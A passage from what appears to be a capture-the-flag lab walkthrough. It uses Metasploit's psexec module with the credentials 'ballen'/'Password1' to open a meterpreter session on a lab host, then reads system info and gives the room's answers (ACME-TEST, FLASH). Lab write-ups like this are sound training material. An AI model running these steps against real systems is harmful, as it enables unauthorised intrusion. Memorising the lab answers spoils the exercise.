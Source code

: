 ```
   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

```

Step3 : Set Rhost of the target machine; and show options
```
set rhosts 10.10.182.21
show options
```
```
show options

Module options (exploit/windows/smb/psexec):

   Name        Current Se  Required  Description
               tting
   ----        ----------  --------  -----------
   RHOSTS      10.10.182.  yes       The target h
               21                    ost(s), see
                                     https://docs
                                     .metasploit.
                                     com/docs/usi
                                     ng-metasploi
                                     t/basics/usi
                                     ng-metasploi
                                     t.html

```
Step 4: set smbuser ballen

Step 5: set smbpass Password1

step 6: show options 

step 7: run  --> meterpreter session started!!!

---

What is the computer name? ACME-TEST

step 8: sysinfo
```
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows

```
---
What is the target domain? Flash (Step 9-12)

